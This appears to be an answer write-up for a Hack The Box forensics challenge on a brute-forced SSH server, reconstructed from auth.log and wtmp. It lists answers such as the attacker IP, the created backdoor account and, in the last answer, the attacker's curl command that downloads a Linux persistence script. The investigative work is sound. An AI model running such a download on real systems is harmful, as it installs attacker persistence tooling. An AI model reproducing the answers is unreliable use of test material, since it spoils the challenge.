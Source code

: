 # Brutus 

[Brutus](https://app.hackthebox.com/sherlocks/Brutus)

## Description

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

## Question

1. Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

> `65.2.161.68`

2. The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

> `root`

3. Identify the timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

> `2024-03-06 06:32:45`

4. SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

> `37`

5. The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

> `cyberjunkie`

6. What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

> `T1136.001`

7. What time did the attacker's first SSH session end according to auth.log?

> `2024-03-06 06:37:24`

8. The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

> `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`
